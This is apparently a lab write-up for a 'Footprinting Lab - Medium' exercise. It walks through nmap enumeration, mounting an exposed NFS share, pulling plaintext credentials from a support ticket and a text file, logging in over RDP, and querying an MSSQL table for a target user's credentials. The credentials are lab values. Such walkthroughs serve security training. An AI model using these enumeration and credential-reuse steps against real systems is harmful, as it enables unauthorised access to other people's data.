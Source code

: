 # Footprinting Lab - Medium

This second server is a server that everyone on the internal network has access to. In our discussion with our client, we pointed out that these servers are often one of the main targets for attackers and that this server should be added to the scope.

Our customer agreed to this and added this server to our scope. Here, too, the goal remains the same. We need to find out as much information as possible about this server and find ways to use it against the server itself. For the proof and protection of customer data, a user named `HTB` has been created. Accordingly, we need to obtain the credentials of this user as proof.

## Walkthrough

```bash
nmap -sV 10.129.202.41
PORT     STATE    SERVICE       VERSION
111/tcp  open     rpcbind?
135/tcp  open     msrpc         Microsoft Windows RPC
139/tcp  open     netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open     microsoft-ds?
2049/tcp open     status        1 (RPC #100024)
3389/tcp open     ms-wbt-server Microsoft Terminal Services
5001/tcp filtered commplex-link
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

We found that the port for file sharing is open 111,2049(NFS) & 139,445(smb), first lets enumerate the NFS with nmap script

```bash
sudo nmap -sV -p111,2049 --script=nfs-showmount 10.129.202.41 -oN nfs.txt
PORT     STATE SERVICE  VERSION
111/tcp  open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
| nfs-showmount: 
|_  /TechSupport 
2049/tcp open  nlockmgr 1-4 (RPC #100021)
```

Now we try to mount the shared nfs folder to see whats inside

```bash
sudo mount -t nfs 10.129.202.41:/TechSupport /mnt/nfs
ls -al #find the file that have non zero byte size
cat ticket4238791283782.txt
Conversation with InlaneFreight Ltd

Started on November 10, 2021 at 01:27 PM London time GMT (GMT+0200)
---
01:27 PM | Operator: Hello,. 
 
So what brings you here today?
01:27 PM | alex: hello
01:27 PM | Operator: Hey alex!
01:27 PM | Operator: What do you need help with?
01:36 PM | alex: I run into an issue with the web config file on the system for the smtp server. do you mind to take a look at the config?
01:38 PM | Operator: Of course
01:42 PM | alex: here it is:

 1smtp {
 2    host=smtp.web.dev.inlanefreight.htb
 3    #port=25
 4    ssl=true
 5    user="alex"
 6    password="lol123!mD"
 7    from="alex.g@web.dev.inlanefreight.htb"
 8}
 9
10securesocial {
11    
12    onLoginGoTo=/
13    onLogoutGoTo=/login
14    ssl=false
15    
16    userpass {      
17      withUserNameSupport=false
18      sendWelcomeEmail=true
19      enableGravatarSupport=true
20      signupSkipLogin=true
21      tokenDuration=60
22      tokenDeleteInterval=5
23      minimumPasswordLength=8
24      enableTokenJob=true
25      hasher=bcrypt
26      }
27
28     cookie {
29     #       name=id
30     #       path=/login
31     #       domain="10.129.2.59:9500"
32            httpOnly=true
33            makeTransient=false
34            absoluteTimeoutInMinutes=1440
35            idleTimeoutInMinutes=1440
36    }   

```

We found credential for login `alex:lol123!mD`

From the previous nmap scan we also found that the port for remote desktop is open, so we try the found credential above here

```bash
xfreerdp /u:alex /p:'lol123!mD' /v:10.129.202.41
```

after succesfull login, open the MSSQL Server Management Studio

we dont have the credential for this so we have to search the filesystem a bit

```bash
C:\Users\alex>dir
 Volume in drive C has no label.
 Volume Serial Number is 2683-3D37

 Directory of C:\Users\alex

11/10/2021  04:25 PM    <DIR>          .
11/10/2021  04:25 PM    <DIR>          ..
11/10/2021  06:19 AM    <DIR>          3D Objects
11/10/2021  06:19 AM    <DIR>          Contacts
11/10/2021  03:34 PM    <DIR>          Desktop
11/10/2021  08:12 AM    <DIR>          devshare
11/10/2021  04:25 PM    <DIR>          Documents
11/10/2021  06:19 AM    <DIR>          Downloads
11/10/2021  06:19 AM    <DIR>          Favorites
11/10/2021  06:19 AM    <DIR>          Links
11/10/2021  06:19 AM    <DIR>          Music
11/10/2021  06:19 AM    <DIR>          Pictures
11/10/2021  06:19 AM    <DIR>          Saved Games
11/10/2021  06:19 AM    <DIR>          Searches
02/12/2024  10:14 PM    <DIR>          TechSupport
11/10/2021  06:19 AM    <DIR>          Videos
               0 File(s)              0 bytes
              16 Dir(s)  24,967,946,240 bytes free
```

&#x20;devshare looks interesting, lets see whats inside

```bash
C:\Users\alex>cd devshare

C:\Users\alex\devshare>dir
 Volume in drive C has no label.
 Volume Serial Number is 2683-3D37

 Directory of C:\Users\alex\devshare

11/10/2021  08:12 AM    <DIR>          .
11/10/2021  08:12 AM    <DIR>          ..
11/10/2021  08:12 AM                16 important.txt
               1 File(s)             16 bytes
               2 Dir(s)  24,959,533,056 bytes free

C:\Users\alex\devshare>type important.txt
sa:87N1ns@slls83
C:\Users\alex\devshare>
```

it looks like the credentials for the MSSQL, now we try to login

<figure><img src="../.gitbook/assets/babd5f04-4a7f-494e-9d2e-204c47f77969.png" alt=""><figcaption><p>Login page</p></figcaption></figure>

<figure><img src="../.gitbook/assets/7ed19d9a-09f2-4a3d-9152-2512939b424c.png" alt=""><figcaption><p>Failed message</p></figcaption></figure>

Still cannot login, maybe we try to run the app as admin and use the previously found credentials

<figure><img src="../.gitbook/assets/7cc30419-e31b-4757-b20d-72c87f549cbc.png" alt=""><figcaption><p>Run as admin</p></figcaption></figure>

It works, now lets see if we can connect

<figure><img src="../.gitbook/assets/fe1f444d-9ce1-48dd-957f-5e93b2fdff02.png" alt=""><figcaption><p>Login Page</p></figcaption></figure>

success, now we are inside this company databases

```sql
#first right click the WINMEDIUM, then select new query
#dont forget to change the tab from master database to accounts
SELECT * FROM .devsacc # to show all
SELECT * FROM .devsacc WHERE name = 'HTB' ORDER BY name; # to sort it
```

and we done it, congrats :).
